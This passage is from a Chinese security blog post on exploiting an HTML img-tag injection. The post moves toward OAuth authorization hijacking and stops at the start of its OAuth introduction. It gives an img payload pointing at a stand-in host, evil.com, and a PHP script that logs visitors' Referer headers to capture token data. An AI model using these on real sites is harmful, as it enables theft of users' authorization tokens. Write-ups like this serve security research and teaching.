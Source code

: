 ```yaml
---
layout: post
title:  img标签之xss利用从放弃到OAuth授权劫持
noToc: true
date:   2018-12-09 23:30:00 +0800
tags: WEB安全 用户授权劫持
cover: '../assets/oauth.png'
---
```


## img标签之xss利用从放弃到OAuth授权劫持

**文章首发于i春秋：**https://bbs.ichunqiu.com/thread-48657-1-1.html

### 一、前奏

惊喜跌落无奈

在某众测时，发现可注入img标签，自然联想到xss的利用，窃感惊喜。可是经过一番折腾测试之后，无奈过滤了可能引起xss的标签内属性与 alert事件....，且经页面过滤之后只遗留下了

```html
<img src='xxxxx'>
```

继续思考可能的利用方式...

![猫]({{site.baseurl}}/assets/images/OAuth/cat.png)

通过html注入加载外部资源，以此达到我们的攻击，HTML注入如下：

```html
<img+src="//evil.com/getref.php">
```

getref.php的内容为如下PHP代码： 

```php
<?php
file_put_contents("ref.txt", $_SERVER['HTTP_REFERER']);
?>
```

经一番测试之后，结果还是不尽人意，以及更换getref.php的payload,但最终只能获取到用户HOST信息，无法得到request头携带的referer其他信息。vps得到的结果如下图所示：

![test6]({{site.baseurl}}/assets/images/OAuth/test6.png)

一番折腾，落败。

深入思考

### 二、后续一

继续研究下`<img src="">`的利用方式发现在OAuth用户授权劫持曾出现过他的身影。先简单介绍下OAuth。

#### OAuth简介
